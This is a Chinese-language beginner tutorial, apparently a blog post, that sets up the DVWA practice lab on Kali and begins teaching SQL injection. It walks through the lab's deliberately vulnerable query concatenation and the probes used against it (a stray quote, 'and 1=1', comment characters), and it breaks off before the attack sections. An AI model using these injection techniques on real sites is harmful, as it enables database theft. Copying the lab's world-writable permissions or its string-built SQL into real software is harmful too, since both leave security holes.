






这一篇是「你跟着敲，敲完真的能把一个数据库拖干净」。

所以它会长，会长到你不必中途去搜「终端怎么打开」「这个报错是什么意思」。我尽量把每一步都写成四句话：

- **在哪做** —— 终端？浏览器？还是 DVWA 的输入框？
- **输什么** —— 一字不差地给你，直接复制。
- **应该看到** —— 屏幕上是啥样，大概什么颜色、什么文字。
- **不对怎么办** —— 没出现预期结果时，按顺序查哪几件事。

看到不认识的词，先翻到【零】那张表，用一句比方记它，不用背定义。等你把 Low 关打完，那些词自然就熟了。

**开始之前，先确认你有这些：**

- 一台内存 8GB 以上的电脑（16GB 更舒服），硬盘留 40GB 空
- 一个能装虚拟机的时间段，第一次搭大概 1~2 小时，别赶
- 一点耐心。真的，报错是正常的，我下面写的每一个报错，我自己都踩过

---

## 零、先把生词扫一遍（这节不操作，但建议看完）

新手卡住，八成不是「不会注」，是「不知道对面在说什么」。所以先把词过一遍。每个词我只给一句人话 + 一个比方，你看完有个印象就行。

| 你会看到的词 | 一句人话 | 打个比方 |
| --- | --- | --- |
| 数据库 | 存数据的软件，一个服务器上可以有很多个 | 一栋**档案楼**，楼里有很多间档案室 |
| 库（database） | 一个项目的数据放一起 | 一间**档案室**，门口挂着名字，比如 `dvwa` |
| 表（table） | 一类数据排成格子 | 档案室里的一本 **Excel**，一行一个人 |
| 字段 / 列（column） | 表里的一竖列，代表一种属性 | Excel 的表头：`user`、`password`、`email` |
| 记录 / 行（row） | 表里的一横排，代表一个对象 | Excel 里的一行：`1, admin, admin, 5f4dcc...` |
| SQL | 你跟数据库说话用的语言 | 跟档案管理员说的**固定暗号**，格式不能错 |
| 查询（SELECT） | 让数据库「帮我找…」 | 「把 3 号档案调出来」 |
| 注入（injection） | 你输入的内容被当成了命令的一部分 | 你在**备注栏**里写了句指令，厨师真照做了 |
| 注入点 | 程序把你输入拼进 SQL 的那个位置 | 备注栏这么大一块空白，谁都能写 |
| payload | 你塞进去的那段话 | 你写在备注栏里的那句话，也叫「**载荷**」 |
| 回显 | 程序把查询结果打印在页面上 | 管理员把档案内容**念给你听** |
| 报错信息 | 数据库说「你这话我听不懂」 | 管理员皱眉：「你这句我念不通」，有时还把你说的话重复一遍 |
| 注释符（`#`、`-- `） | 让数据库「后面别看了」的符号 | 在纸上画条线：**以下作废** |
| 闭合 | 用一个引号把原来的字符串提前结束 | 话没说完就抢答，把对方的句子**截断** |
| union（联合查询） | 把两条查询的结果拼成一份 | 两份名单**订在一起**打印 |
| 列数 | 一条查询输出几竖列 | 名单有几栏，粘一起必须栏数一样 |
| `information_schema` | MySQL 自带的「目录库」，存着所有表和字段的名字 | 档案室的**索引柜**，写着哪本 Excel 在哪一格 |
| 哈希（MD5） | 密码算出来的一串指纹，不能反推，只能猜 | 密码的**指纹**：按指纹认人，但没法从指纹捏出人脸 |
| 拖库 | 把整张表的数据搬走 | 把整本 Excel **拍照带走** |
| 盲注 | 页面不打印结果，只能靠「是/不是」或「快/慢」问出来 | **二十问游戏**：你只能问是非题，问到最后猜出答案 |
| 布尔盲注 | 靠页面「有内容 / 空」判断真假 | 管理员只**点头或摇头** |
| 时间盲注 | 靠响应快慢判断真假 | 按门铃，看**几秒来开门** |
| 堆叠注入 | 在一条语句后面用分号再接一条 | 一张单子写完，**再订一张** |
| 二次注入 | 存进去时没事，后来被取出来用时炸了 | 你把纸条塞进意见箱，**三天后**有人照着纸条办事 |
| 宽字节注入 | 两个字节拼成一个汉字，把转义用的反斜杠「吃掉」 | 两个人手拉手挤过闸机，**把保安挤开** |
| 预处理 / 参数化 | 先把 SQL 的格式定死，值另外单独送 | 先发一张**空白表格**，你只能往格子里填，改不了表头 |
| WAF | 网站前面的过滤设备 | 门口的**保安**，念他手上的黑名单 |
| 虚拟机 | 用软件模拟出来的一台电脑 | 电脑里**套**的一台电脑，玩坏不影响真机 |
| 镜像 | 装系统用的那个大文件 | 系统的**模子**，倒进去就是一台新机器 |
| 快照 | 给虚拟机拍个「存档」 | 游戏**存档点**，死了读档 |
| 终端 | 敲命令的黑框窗口 | 跟电脑**打字对话**的地方 |
| 命令 / sudo | 一行一行的指令 / 用管理员身份执行 | 让电脑干什么 / 拿**管理员工牌**再说一遍 |
| 服务（apache、mariadb） | 后台一直跑着的程序 | 店里的**店员**，得先上班才接客 |
| 网站根目录 | 网站文件放在哪，`/var/www/html` | 网站的**前台柜台**，放这儿的东西网页能直接访问 |
| `127.0.0.1` / `localhost` | 「我自己这台机器」 | 给**自己家**打电话，不用拨区号 |
| URL 参数 | 地址里 `?` 后面的 `id=1` | 点单时**写在括号里**的附加要求 |
| Cookie | 浏览器自动带上的小纸条，证明「我登录过」 | 进门的**手环**，保安看手环放行 |
| getshell | 能在服务器上执行命令了 | 从「只能看档案」升级到「**能在档案室装窃听器**」 |
| webshell | 传上去的一个网页版后门 | 伪装成普通文件的**遥控器** |
| CVE 编号 | 公开漏洞的身份证号 | 通缉令上的**编号** |
| RCE | 远程执行命令 | 隔着网线**让对方电脑替你干活** |
| 在野利用 | 真的有人在拿它打真实目标，不只是实验室 | 不是演练，是**真枪** |

看完这张表不用记住，往下做，看到哪个词回来瞄一眼就行。

---

## 一、把靶场搭起来：手把手，一步一步来

### 1. 先有一台 Kali

这一节的前提是：你已经有了一台能开机、能上网的 Kali 虚拟机。

没有的话，去看另一篇：[在虚拟机里安装 Kali Linux](/posts/kali-linux-tutorial/)。那篇讲的是 VMware + 官网预建镜像，装完账号密码都是 `kali`。装好、能进桌面了，再回来。

> **为什么不直接在 Windows 上装？** 因为你要装的是一整套 Web 服务（Apache + 数据库 + PHP），在 Windows 上折腾环境变量和扩展能劝退一半人。Kali 里这些是一条命令的事，而且弄坏了回滚快照就行。

### 2. 先认清两个窗口：终端和浏览器

后面所有操作只在这两个地方发生，别慌。

**（1）终端 —— 敲命令的地方**

打开方式，任选一个：

- 桌面空白处**右键** → 「Open Terminal Here」（打开终端）
- 左上角开始菜单 → 搜 `Terminal`
- 快捷键 `Ctrl + Alt + T`

打开后是一个黑底窗口，最后一行长这样：

```
┌──(kali㉿kali)-[~]
└─$
```

- `kali㉿kali` 是「用户名@机器名」
- `~` 是你现在在哪个目录，`~` 代表「家目录」
- `$` 是提示符，**看到它就说明可以输入命令了**

输入命令的方式：**点一下窗口，直接打字或者粘贴，然后按回车**。

> 复制粘贴有个坑：终端里粘贴是 `Ctrl + Shift + V`，不是 `Ctrl + V`。`Ctrl + C` 在终端里是「中断当前命令」，不是复制。

**（2）浏览器 —— 看网页的地方**

Kali 桌面左下角有个 Firefox 图标，点开就行。后面所有 `http://127.0.0.1/...` 的地址，都是粘到**浏览器最上面那条地址栏**里，按回车。

`127.0.0.1` 的意思是「这台机器自己」。所以你在 Kali 的浏览器里访问 `127.0.0.1`，访问的就是 Kali 自己身上跑的那个网站。**不联网也能用**，这点很重要 —— 靶场就该断网打。

### 3. 装 Apache + 数据库 + PHP（合称 LAMP）

DVWA 是 PHP 写的网站，它需要三样东西才能跑：一个 Web 服务器（Apache，负责把网页发给浏览器）、一个数据库（MariaDB，负责存数据）、一个 PHP（负责执行网页里的代码）。

**在哪做：** 终端
**输什么：**

```bash
sudo apt update
```

**应该看到：** 一堆 `Get:1 http://...` `Reading package lists... Done`。第一次跑慢一点，正常。

**不对怎么办：** 如果报 `Could not resolve` 或 `Temporary failure resolving`，是虚拟机没网。检查虚拟机右下角网络图标，或者在 VMware 里把网络适配器改成 NAT。

接着升级（可选，但建议）：

```bash
sudo apt upgrade -y
```

这一步可能要几分钟到十几分钟，看到 `Do you want to continue? [Y/n]` 时它已经被 `-y` 自动回答了，不用管。中途可以干别的。

升级完，一次性把需要的包装上：

```bash
sudo apt install -y apache2 mariadb-server php php-mysqli php-gd php-mbstring git
```

**逐段解释一下这串东西，别当咒语背：**

| 这一段 | 是什么 |
| --- | --- |
| `apt install` | 「帮我装这些软件」 |
| `-y` | 一路自动回答「是」，不用你按 y |
| `apache2` | Web 服务器，网页靠它发出去 |
| `mariadb-server` | 数据库，数据靠它存 |
| `php` | 网页脚本语言 |
| `php-mysqli` | PHP 跟数据库说话的**转接头**。少这个，DVWA 首页会红一片 |
| `php-gd` | 处理图片的，DVWA 要检查 |
| `php-mbstring` | 处理多字节字符（中文之类） |
| `git` | 下载代码用的工具 |

**应该看到：** 最后几行是 `Setting up ...`，没有红色 `E:` 开头的行。

**不对怎么办：**

- 如果提示 `E: Unable to locate package php-mysqli`，先 `sudo apt update` 再装。
- 如果提示某个包「has no installation candidate」，八成是源的问题，`sudo apt update` 的输出里会有提示。
- 装到一半断电/关窗口：重新跑一遍同一条命令，apt 会接着装。

装完，把两个服务启动起来：

```bash
sudo systemctl start apache2 mariadb
sudo systemctl enable apache2 mariadb
```

`start` 是「现在就上班」，`enable` 是「以后开机自动上班」。两句都要。

确认一下状态：

```bash
sudo systemctl status apache2
```

**应该看到** 绿字 `Active: active (running)`。看完按 `q` 退出这个界面（它是个分页器，不按 q 会卡在那儿，新手常以为死机了）。

再看一眼网页服务通不通：

```bash
curl -s http://127.0.0.1 | head -n 5
```

**应该看到** 几行 HTML，里面有 `Apache2 Debian Default Page` 之类。有输出就说明 Apache 活着。

> 从这里开始，你可以随时用浏览器打开 `http://127.0.0.1` 看那个默认页。**只要能看到默认页，就说明 Web 这条线是通的**，后面出问题就只可能是 DVWA 自己的问题，排查范围一下小一半。

### 4. 建数据库和数据库账号

**为什么不能直接用 root？** MariaDB 装好之后，`root` 默认只允许「系统管理员用本机 socket 登录」，也就是你在终端 `sudo mariadb` 能进，但 PHP 用密码连 root 是连不上的。所以老实建一个专用账号，这也更接近真实环境。

**在哪做：** 终端
**输什么：**

```bash
sudo mariadb
```

**应该看到：** 提示符从 `$` 变成 `MariaDB [(none)]>`。这说明你已经进到数据库里面了，接下来敲的是 SQL，不是 Linux 命令。

> 想退出：敲 `exit;` 或者按 `Ctrl + D`。别用 `Ctrl + C` 硬退，虽然也能退，但容易留下半截状态。

然后一句一句敲（或者整段粘进去也行，注意**每句结尾的分号不能少**）：

```sql
CREATE DATABASE dvwa;
CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

**逐句翻译成人话：**

| 这一句 | 人话 |
| --- | --- |
| `CREATE DATABASE dvwa;` | 开一间叫 `dvwa` 的档案室 |
| `CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd';` | 雇一个也叫 `dvwa` 的管理员，只准从本机进，口令是 `p@ssw0rd` |
| `GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';` | 把这间档案室的**全部钥匙**给他（`dvwa.*` 意思是只限这间屋子，不是整栋楼） |
| `FLUSH PRIVILEGES;` | 让上面的授权立刻生效 |
| `EXIT;` | 出门 |

**应该看到：** 每句后面跟 `Query OK, 0 rows affected`。

**不对怎么办：**

- `ERROR 1044 (42000): Access denied`：你可能没加 `sudo`，或者已经在里面了又 `sudo` 了一次。退出重来。
- `ERROR 1064 (42000): You have an error in your SQL syntax`：分号打成了中文全角 `；`，或者引号是中文引号 `‘’`。**切英文输入法重打一遍**，这是新手第一大坑。
- `ERROR 1007: Can't create database 'dvwa'; database exists`：已经建过了，没事，往下走。
- 密码自己换的话，记住它，下一步要原样写进配置文件。**大小写也要一致。**

### 5. 把 DVWA 下载下来

**先搞懂一件事：网站的文件放在哪。**

Apache 有个「网站根目录」，Kali 里是 `/var/www/html/`。**放在这个目录里的东西，浏览器就能访问到。** 你等会儿要把 DVWA 放进这个目录，然后访问 `http://127.0.0.1/dvwa/`，就能看到它。

打个比方：`/var/www/html/` 是店面前台，你把菜单放上去，客人（浏览器）才能看见。

**在哪做：** 终端
**输什么：**

```bash
cd /var/www/html
```

`cd` 是「进入某个目录」，相当于双击打开文件夹。敲完提示符里的 `~` 会变成 `/var/www/html`。

然后下载：

```bash
sudo git clone https://github.com/digininja/DVWA.git dvwa
```

**应该看到：** `Cloning into 'dvwa'...`，然后一堆 `remote: Enumerating objects`，最后完成。

**不对怎么办：**

- `git: command not found`：`sudo apt install -y git`。
- 卡在 `Cloning into` 不动：GitHub 国内慢，等一会儿；实在不行用下面的方法二。
- `fatal: destination path 'dvwa' already exists`：已经下载过了，跳过这步。

**方法二（不用命令行）：** 浏览器打开 `https://github.com/digininja/DVWA`，点绿色的 `Code` → `Download ZIP`，下载完解压，把解压出来的文件夹（可能叫 `DVWA-master`）改名成 `dvwa`，然后用文件管理器拖进 `/var/www/html/`。

> 拖不进去是因为没权限。在终端里用 `sudo mv ~/Downloads/DVWA-master /var/www/html/dvwa` 更省事（路径按你实际的改）。

### 6. 改配置文件（四行）

DVWA 自带的配置是模板，得复制一份成正式配置，再把数据库账号密码填进去。

**在哪做：** 终端
**输什么：**

```bash
cd /var/www/html/dvwa
sudo cp config/config.inc.php.dist config/config.inc.php
```

`cp A B` 是「把 A 复制成 B」。`.dist` 结尾的是模板，不改它，改复制出来的那份。

然后用 nano 打开它（nano 是终端里的记事本）：

```bash
sudo nano config/config.inc.php
```

**nano 的三个操作，先记住，不然你会卡在里面出不来：**

| 想干什么 | 按什么 |
| --- | --- |
| 移动光标 | 方向键 |
| 保存 | `Ctrl + O`，然后按**回车**确认文件名 |
| 退出 | `Ctrl + X` |
| 搜索 | `Ctrl + W`，输入关键字，回车 |

用方向键往下找，找到这四行（大概在 20 行左右）：

```php
$_DVWA[ 'db_server' ]   = '127.0.0.1';
$_DVWA[ 'db_database' ] = 'dvwa';
$_DVWA[ 'db_user' ]     = 'dvwa';
$_DVWA[ 'db_password' ] = 'p@ssw0rd';
```

改成跟你第 4 步建的一致。如果第 4 步你换过密码，这里的 `p@ssw0rd` 也要换成一样的。

顺手把难度默认值也改成最低，省得每次进去都要点：

```php
$_DVWA[ 'default_security_level' ] = 'low';
```

改完 `Ctrl + O` → 回车 → `Ctrl + X`。

**不对怎么办：**

- 找不到那四行：`Ctrl + W` 搜 `db_password`。
- 保存时提示 `[ Error writing config.inc.php: Permission denied ]`：你打开时忘了加 `sudo`。`Ctrl + X` 退出，重新 `sudo nano ...`。
- 手滑改坏了：`sudo cp config/config.inc.php.dist config/config.inc.php` 重来一遍。

### 7. 给权限（一句话，但很关键）

Apache 跑网站用的是 `www-data` 这个用户，不是你。所以得把 DVWA 目录交给它，并且让「上传目录」和「配置目录」可写。

**在哪做：** 终端
**输什么：**

```bash
sudo chown -R www-data:www-data /var/www/html/dvwa
sudo chmod -R 777 /var/www/html/dvwa/hackable/uploads
sudo chmod -R 777 /var/www/html/dvwa/config
```

**翻译：**

- `chown -R www-data:www-data 目录` = 把这个目录（含里面所有文件，`-R` 是递归）的**主人**改成 `www-data`
- `chmod -R 777 目录` = 让**所有人**都能读、写、执行。生产环境这么写会被骂，但靶场里无所谓，反而少一堆麻烦 —— 你后面练「写文件」那关，目录不可写就写不进去。

**应该看到：** 没有输出。Unix 的哲学是「没消息就是好消息」。

**不对怎么办：** 报 `No such file or directory`，说明路径不对，`ls /var/www/html/dvwa` 看看目录在不在、名字对不对。

### 8. 打开网页、建库、登录

**在哪做：** 浏览器地址栏
**输什么：**

```
http://127.0.0.1/dvwa/setup.php
```

**应该看到：** 一个黑红配色的页面，标题 `Database Setup`，下面一排绿色的 `Enabled` / 红色的 `Disabled`。

这一页是 DVWA 的自检 + 建库。往下拉到最底，有个按钮 **Create / Reset Database**，点它。

**应该看到：** 页面跳回登录页，上面有一行 `Database has been created.`（或者 `Database has been reset.`）。

**如果整页是红的，写着 `PHP module mysqli: Missing` 之类：**

```bash
sudo apt install -y php-mysqli
sudo systemctl restart apache2
```

然后刷新页面。

**如果点按钮后报 `Could not connect to the database`：**

1. 确认数据库在跑：`sudo systemctl status mariadb`，要有绿字 `active (running)`
2. 确认第 6 步那四行填对了，尤其密码
3. 确认第 4 步的用户真的建了：`sudo mariadb -e "select user,host from mysql.user;"`，输出里要有 `dvwa localhost`

登录框里填：

| 用户名 | 密码 |
| --- | --- |
| `admin` | `password` |

点 **Login**。

**应该看到：** 左边一列菜单（Home、Instructions、Setup、Brute Force、Command Injection、CSRF、File Inclusion、File Upload、SQL Injection ...），右边是 `Welcome to Damn Vulnerable Web Application`。

**到这里，靶场就活了。** 你可以先深呼吸一下 —— 后面全是「打」的事了。

### 9. 把难度调到最低

**在哪做：** 浏览器，左边菜单点 **DVWA Security**
**输什么：** 不用输入，下拉框选 **Low**，点 **Submit**

**应该看到：** 页面上 `Security level is currently: low.` 这行字的 `low` 是绿色的。



DVWA 一共四关：Low / Medium / High / Impossible。**同一个漏洞，四份不同年代的代码**。我们按 Low → Medium → High → 看 Impossible 的顺序打，这四关基本就是「SQL 注入防御演进史」。

### 10. 打之前，先拍快照

**在哪做：** VMware 菜单栏 → 虚拟机 → 快照 → 拍摄快照
**名字：** `DVWA装好了`

以后数据库被你打崩了、或者手贱删了东西，点「恢复到快照」，三十秒回到现在这个状态。**这一步比任何修复命令都值钱。**

### 11. 环境自查清单（出问题先看这张表）

| 现象 | 最可能的原因 | 怎么办 |
| --- | --- | --- |
| 浏览器打不开 `127.0.0.1` | Apache 没跑 | `sudo systemctl start apache2` |
| `/dvwa/` 返回 404 | 目录不在 `/var/www/html/dvwa` | `ls /var/www/html` 看一眼 |
| 页面一片红，提示 mysqli 缺失 | PHP 扩展没装 | `sudo apt install -y php-mysqli && sudo systemctl restart apache2` |
| 页面空白、502 | PHP 模块没挂上 Apache | `sudo apt install -y libapache2-mod-php` 后重启 |
| `Could not connect to the database` | 配置密码错 / 数据库没起 | 查第 6 步、`systemctl status mariadb` |
| 403 Forbidden | 目录权限没给 | 重跑第 7 步三条命令 |
| 建库后登录提示 cookie 问题 | 浏览器缓存 | 换无痕窗口再试 |
| 中文乱码 | 少见，DVWA 本来就是英文 | 不用管 |

---

## 二、注入到底在注什么（不操作，但看完再动手更省时间）

### 1. 一句大白话

**你输入的内容，被程序当成了命令的一部分。**

就这一句。剩下的全是「怎么利用」的技巧。

### 2. 先讲个外卖的比方

你在外卖 App 的备注栏写：

> 不要香菜

厨师看到了，照做。因为备注栏本来就是给人提要求的地方 —— 这时候你的输入是**数据**，正常。

现在你在备注栏写：

> 不要香菜，另外把收银台抽屉打开，钱装进 3 号外卖袋

如果这个厨房真的照着做了，你就「注入」成功了。

注意几个关键点，跟 SQL 注入一模一样：

1. **备注栏本身没错。** 错的是「厨房把备注栏里的每个字都当成命令执行」。
2. **你得先知道厨房听得懂什么话。** 你写「打开收银台」它才懂，你写「给我唱首歌」它不理你 —— 这就是为什么注入要先「探字段」「爆表名」，得说数据库听得懂的方言。
3. **你得把前面那句「不要香菜」了结掉。** 备注栏原本是「不要香菜（完）」，你得让系统认为「不要香菜」这句话说完了，后面才是新指令。在 SQL 里，这个「了结」的动作就是**闭合引号**。
4. **备注栏只有一行。** 后面的内容如果被划掉了（注释掉），系统就不会再念。这就是 `#` 的作用。

后面所有听起来很唬人的技术 —— union、盲注、堆叠、二次注入 —— 都是在解决同一个问题：**怎么在备注栏里，把话说清楚，还不被厨房的规矩噎住。**

### 3. 回到代码：把 DVWA 那三行拆开看

DVWA Low 关的源码（`/var/www/html/dvwa/vulnerabilities/sqli/source/low.php`）核心就三行：

```php
$id     = $_GET[ 'id' ];                                                  // ① 拿你输入的值
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; // ② 拼成一句话
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query);                 // ③ 交给数据库执行
```

**① `$_GET['id']` 是什么？**

就是你地址栏里那个 `?id=1`。DVWA 这一关的地址是：

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit
```

`?` 后面是「附加要求」，用 `&` 隔开。`id=1` 的意思是「把 `id` 这个参数设成 1」。PHP 里用 `$_GET['id']` 就能取到 `1` 这个字符串。

你也可以在 DVWA 页面的输入框里输，点 Submit，它会把你的输入拼进地址栏。两种方式等价，**但注意：你在输入框里输的内容会被浏览器自动编码**，有时候空格会变成 `+` 或者 `%20`。如果你跟着我做，直接用输入框，别手改地址栏。

**② 字符串拼接是什么意思？**

PHP 里双引号括起来的字符串，里面的 `$id` 会被替换成变量的值。所以当 `$id` 是 `1` 时，这行代码算出来的结果就是：

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1';
```

这就是发给数据库的最终指令。**看出来了吗 —— 你的输入被塞进了两个单引号中间。**

**③ 执行。**

数据库收到这句话，理解成：「从 `users` 表里，把 `user_id` 等于 `1` 的那行的姓和名给我。」

页面就打印出 `admin` / `admin`。

### 4. 为什么多打一个引号，它就说「语法错误」

在 SQL 里，单引号是**边界**，意思是「从这儿到下一个单引号，里面全是文字，不是命令」。

你把输入换成 `1'`，拼出来的句子是：

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1'';
```

- 第一个 `'`：字符串开始，内容是 `1`
- 第二个 `'`：字符串结束
- 第三个 `'`：又开了一个字符串，但**到句子结尾都没关上**

所以数据库懵了：`You have an error in your SQL syntax; ... near ''1''' at line 1`

翻译：**「你这句我念不通，就在 `''1'''` 这块附近。」**

而这个报错，就是你的第一个「突破口」——因为它把你说的话**原样念了出来**。如果一个网站连报错都不关，那它等于免费送了你一个调试器。

### 5. 这个坑你其实在 C 语言里见过

```c
printf(user_input);        // 危险
printf("%s", user_input);  // 安全
```

第一种写法里，你输入 `%s%s%s%n` 这种内容，`printf` 会把它当成格式符去执行 —— 这叫格式化字符串漏洞。

**SQL 注入是同一个思想换了场合。** 只不过程序把「用户输入」当成了 SQL 语法，而不是格式符。

所以防御的思路也永远是同一句：**把数据和代码分开传。**

- SQL 里的正确写法：预处理（把 SQL 模板先定死，值单独送）
- C 里的正确写法：`printf("%s", user_input)`

记住这句，后面看到「参数化」「预处理」「PreparedStatement」这些词，你就知道它在说什么了。

### 6. 三条语法规则，背下来能省很多事

**（1）`#` 和 `-- ` 是注释符。**

`#` 后面的内容数据库不看了。所以：

```sql
SELECT ... WHERE user_id = '1' and 1=1 #';
```

`#` 把原本剩下的 `';` 全注释掉了，句子就完整了。

`--` 也行，但**后面必须跟一个空格**（`-- ` 是三个字符），少了空格不生效。所以老手都写 `-- -`。

**（2）`and` / `or` 决定你能不能「提问」。**

- `1=1` 永远真，`1=2` 永远假
- `A and B`：A 真且 B 真，结果才真
- `A or B`：A 真或 B 真，结果就真

能构造真假，就能问数据库「是/不是」的问题。这是所有盲注的地基：一个只能回答是非题的数据库，也能被问出全部内容。

**（3）`mysqli_query()` 一次只能执行一条语句。**

所以你在 DVWA 里用 `;` 后面接一条 `UPDATE` 是不会成功的 —— **不是你的 payload 错了，是这关的 PHP 不支持。** 这个细节后面讲真实案例时很关键，先记住：能不能堆叠，看后端怎么执行 SQL，不看你的胆子。

### 7. 一张图记住整条链路

```
